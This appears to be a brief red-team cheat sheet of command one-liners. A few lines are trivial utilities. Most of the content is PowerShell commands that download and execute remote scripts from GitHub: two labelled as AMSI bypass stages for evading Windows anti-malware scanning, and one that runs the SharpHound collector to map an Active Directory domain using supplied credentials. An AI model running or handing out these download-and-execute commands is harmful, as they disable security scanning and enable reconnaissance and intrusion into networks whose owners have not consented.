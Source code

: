 ##### Add text to line
~~~
awk  '{print "http://" $1}' urls.txt
~~~
##### Change permissions of folder (Linux)
~~~
sudo chmod +x $(find /PATH/)
~~~
##### Stage One (AMSI Techniques)
~~~
IEX (New-Object Net.Webclient).DownloadString('https://raw.githubusercontent.com/HeeresS/Small-Code/main/StageOne.ps1'); Invoke-StageOne
~~~
##### Stage Two (AMSI .NET Techniques)
~~~
IEX (New-Object Net.Webclient).DownloadString('https://raw.githubusercontent.com/HeeresS/Small-Code/main/StageTwo.ps1')
~~~
##### BloodHound ingestor trough PowerShell
~~~
IEX(New-Object Net.Webclient).DownloadString('https://raw.githubusercontent.com/BloodHoundAD/BloodHound/master/Collectors/SharpHound.ps1');Invoke-BloodHound -LdapUsername "Username" -LdapPassword "Password" -Domain "Domain" -DomainController DC-ip -CollectionMethods All -OutputDirectory "C:\TEMP\"
~~~~

